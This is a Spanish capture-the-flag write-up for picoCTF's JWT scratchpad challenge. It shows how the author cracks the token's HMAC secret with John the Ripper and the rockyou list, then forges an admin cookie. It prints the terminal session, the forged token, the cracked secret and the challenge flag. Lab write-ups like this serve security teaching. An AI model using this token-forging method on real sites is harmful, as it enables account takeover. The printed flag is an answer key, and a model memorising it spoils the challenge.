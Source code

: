 ### Descripción
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090

Hints:
1. What is that cookie?
2. Have you heard of JWT?

### Solución
Al logearnos y agarrar la cookie generada para decodearla en jwt.io hay que modificar el usuario a admin:
```
Decoded:
"user":"admin"
}

Encoded:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
```
Esto nos manda un error.

Lo que hay que hacer es guardar la cookie en un archivo y hacer uso de john para obtener la palabra clave:
```
┌──(kali㉿kali)-[~]
└─$ nano hash
                                                                             
┌──(kali㉿kali)-[~]
└─$ cat hash                                  
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoic2ViYXMifQ.IIpBNY1OkIccvm4NaMzVeNMN5tY3JAADnRvjHZ7DPFg
                                                                             
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists
amass      dnsmap.txt     john.lst    nmap.lst        wfuzz
dirb       fasttrack.txt  legion      rockyou.txt.gz  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt
                                                                             
                                                                             
┌──(kali㉿kali)-[~]
└─$ sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
                                                                             
┌──(kali㉿kali)-[~]
└─$ ls /usr/share/wordlists                         
amass      dnsmap.txt     john.lst    nmap.lst     wfuzz
dirb       fasttrack.txt  legion      rockyou.txt  wifite.txt
dirbuster  fern-wifi      metasploit  sqlmap.txt
                                                                             
┌──(kali㉿kali)-[~]
└─$ head /usr/share/wordlists/rockyou.txt 
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
                                                                             
┌──(kali㉿kali)-[~]
└─$ sudo apt install john                           
john is already the newest version (1.9.0-Jumbo-1+git20211102-0kali9).
john set to manually installed.
Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 0
                                                                                 
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:07 DONE (2025-03-26 20:51) 0.1369g/s 1013Kp/s 1013Kc/s 1013KC/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

ilovepico es la palabra con la que fue firmado el token.
Esta la modificamos en el jwt.io para agregarla a las características de la cookie lo que cambia el hash y al editar esté en la cookie original ahora nos muestra la bandera en la caja de texto:

Flag:
picoCTF{jawt_was_just_what_you_thought_f859ab2f}

### Notas adicionales


### Referencias
https://jwt.io/
Cookie-Editor
